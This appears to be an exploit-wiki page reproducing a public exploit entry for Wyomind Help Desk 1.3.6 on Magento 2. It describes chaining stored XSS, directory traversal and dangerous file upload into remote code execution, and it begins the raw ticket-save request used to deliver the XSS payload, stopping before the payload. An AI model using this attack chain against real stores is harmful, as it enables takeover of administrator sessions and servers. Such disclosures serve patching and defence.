 <languages /> <translate>

影響版本
--------

</translate> Version: \<= 1.3.6

EXP
---

    # Exploit Title: Wyomind Help Desk 1.3.6 - Remote Code Execution (RCE)
    # Date: 2021-07-07
    # Exploit Author: Patrik Lantz
    # Vendor Homepage: https://www.wyomind.com/magento2/helpdesk-magento-2.html
    # Version: <= 1.3.6
    # Tested on: Ubuntu 18.04-20.04, Apache, PHP 7.2, Magento 2


    The Mangento 2 Help Desk extension from Wyomind up to and including version 1.3.6 is vunerable to stored XSS, directory traversal and  unrestricted upload of a dangerous file type. These vulnerabilites combined could lead to code execution.

    A XSS payload can be sent via the ticket message from the front-end in the 'Support - My tickets' section.
    The payload is triggered when an administrator views the ticket in the Magento 2 backend. The following request enable
    the delivery of the XSS payload:

    POST /helpdesk/customer/ticket_save/ HTTP/1.1
    Host: <redacted>
    Content-Type: multipart/form-data; boundary=---------------------------243970849510445067673127196635
    Content-Length: 683
    Origin: https://<redacted>
    Connection: close
    Referer: https://<redacted>/helpdesk/customer/ticket_view/
    Cookie: <redacted>
    Upgrade-Insecure-Requests: 1

    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="form_key"

    <redacted>
    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="object"
